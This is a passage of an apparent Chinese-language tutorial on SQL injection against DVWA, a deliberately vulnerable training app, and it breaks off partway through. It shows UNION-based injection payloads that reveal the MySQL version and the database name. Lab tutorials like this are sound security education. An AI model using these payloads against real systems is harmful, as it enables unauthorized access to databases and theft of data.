 从现在开始，我们必须按照 DVWA 中关于 SQL 注入的[第一教程](https://medium.com/bugbountywriteup/how-to-hack-with-sql-injection-attacks-dvwa-low-security-stackzero-9286d7d0dfd1)中的步骤来做。

我们可以检查 DBMS 是否是 MySQL:

```
1' OR 1=1 UNION SELECT 1, VERSION()#
```

而结果告诉我们，我们用的是 MySQL (Version()是 MySQL 函数):

![](img/3d358a746b3535deb4e85c380554b4a0.png)

为了得到更清晰的结果，我们需要知道数据库的名称:

```
1' OR 1=1 UNION SELECT 1,DATABASE() #
```

正如我们在最后一行看到的，名字是" *dvwa* ":
